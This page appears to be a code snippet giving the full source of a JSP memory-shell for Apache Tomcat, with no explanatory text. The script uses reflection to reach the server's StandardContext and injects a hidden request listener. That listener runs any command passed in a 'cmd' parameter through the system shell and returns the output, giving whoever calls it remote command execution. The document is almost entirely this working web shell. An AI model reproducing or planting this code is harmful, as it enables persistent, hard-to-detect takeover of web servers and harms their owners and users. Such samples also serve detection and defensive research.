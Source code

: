 ### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ServletRequestListener listener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
            try {
                String cmd = request.getParameter("cmd");
                Field requestField = RequestFacade.class.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    response.getWriter()
.write(output);
                    response.getWriter().flush();
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    };
    standardContext.addApplicationEventListener(listener);
    response.getWriter().write("Listener Inject Successfully...");
%>
```

